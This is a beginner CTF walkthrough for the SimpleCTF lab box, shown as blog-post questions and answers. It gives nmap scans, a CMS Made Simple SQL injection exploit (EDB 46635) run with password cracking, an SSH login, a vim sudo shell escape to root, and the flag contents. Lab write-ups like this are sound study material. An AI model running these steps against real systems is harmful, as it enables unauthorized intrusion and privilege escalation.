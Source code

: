 ```yaml
---
layout: post
title: Box - SimpleCTF
published: true
---
```


Begginner level CTF

* * *

## How many services are running under port 1000?

- ``sudo nmap -T4 10.10.35.218 -p- -vvv``

```shell
PORT     STATE SERVICE      REASON
21/tcp   open  ftp          syn-ack ttl 61
80/tcp   open  http         syn-ack ttl 61
2222/tcp open  EtherNetIP-1 syn-ack ttl 61
```

* * *

## What is running on the higher port?

-  ``sudo nmap -sC -sV -O -T4 10.10.35.218 -p2222``

```shell
PORT     STATE SERVICE VERSION
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
```

* * *

## What's the CVE you're using against the application?

```shell
┌──(0xskar㉿cocokali)-[~/Documents/TryHackMe/SimpleCTF]
└─$ searchsploit -p 46635 
  Exploit: CMS Made Simple < 2.2.10 - SQL Injection
      URL: https://www.exploit-db.com/exploits/46635
     Path: /usr/share/exploitdb/exploits/php/webapps/46635.py
File Type: Python script, ASCII text executable
```

* * *

## To what kind of vulnerability is the application vulnerable?

- SQLi

* * *

## What's the password?

- ``python2 46635.py -u http://10.10.35.218/simple --crack -w /usr/share/seclists/Passwords/rockyou.txt``

```shell
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```

* * *

## Where can you login with the details obtained?

- ssh

* * *

## What's the user flag?

```shell
$ cat user.txt
G00d j0b, keep up!
```

* * *

## Is there any other user in the home directory? What's its name?

```shell
$ cd ..
$ ls -las
total 16
4 drwxr-xr-x  4 root    root    4096 aug 17  2019 .
4 drwxr-xr-x 23 root    root    4096 aug 19  2019 ..
4 drwxr-x---  3 mitch   mitch   4096 aug 19  2019 mitch
4 drwxr-x--- 16 sunbath sunbath 4096 aug 19  2019 sunbath
```

* * *

## What can you leverage to spawn a privileged shell?

- ``sudo -l``
- vim
- ``sudo vim -c ':!/bin/sh'``

* * *

## What's the root flag?

```shell
# cat root.txt
W3ll d0n3. You made it!
```

* * *
